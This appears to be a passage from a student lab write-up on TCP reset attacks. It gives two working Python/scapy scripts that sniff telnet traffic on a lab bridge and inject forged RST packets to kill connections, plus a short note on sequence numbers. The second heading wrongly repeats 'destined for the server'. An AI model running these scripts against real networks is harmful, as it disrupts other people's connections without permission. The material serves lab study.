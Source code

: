 I implemented this in two ways

1. sniffing traffic that is destined for the server

    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    from random import getrandbits

    def drop_pkt(pkt):
        # Checks that packet is an acknowledgement packet
        if not pkt[IP][TCP].payload:
            newpkt = IP()/TCP()
            newpkt[IP].src = pkt[IP].dst
            newpkt[IP].dst = pkt[IP].src
            newpkt[TCP].sport = pkt[TCP].dport
            newpkt[TCP].dport = pkt[TCP].sport        
            newpkt[TCP].flags = 'R'
            newpkt[TCP].seq = pkt[TCP].ack
            newpkt[TCP].ack = 0
            send(newpkt, verbose=0)
        
    sniff(iface = 'br-fee11e059dc7', filter = 'tcp dst port 23 && (not ether host 02:42:e4:2c:cc:83)', prn = drop_pkt)
    ```

    since I am sniffing connections destined for the server, I am listening for an acknowledgment that would be sent to the server. This is because I can be sure that the acknowledgment number in the sniffed traffic is the correct sequence number that the server would use to send the next packet. Choosing the wrong sequence number will cause the attack to fail.

2. sniffing traffic that is destined for the server

    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    from random import getrandbits

    def drop_pkt(pkt):
        newpkt = IP()/TCP()
        newpkt[IP].src = pkt[IP].src
        newpkt[IP].dst = pkt[IP].dst
        newpkt[TCP].sport = pkt[TCP].sport
        newpkt[TCP].dport = pkt[TCP].dport        
        newpkt[TCP].flags = 'R'
        newpkt[TCP].seq = pkt[TCP].seq + len(pkt[TCP].payload)
        newpkt[TCP].ack = 0
        send(newpkt, verbose=0)
        print('sent RST...')
        
    sniff(iface = 'br-fee11e059dc7', filter = 'tcp src port 23 && (not ether host 02:42:e4:2c:cc:83)', prn = drop_pkt)
    ```
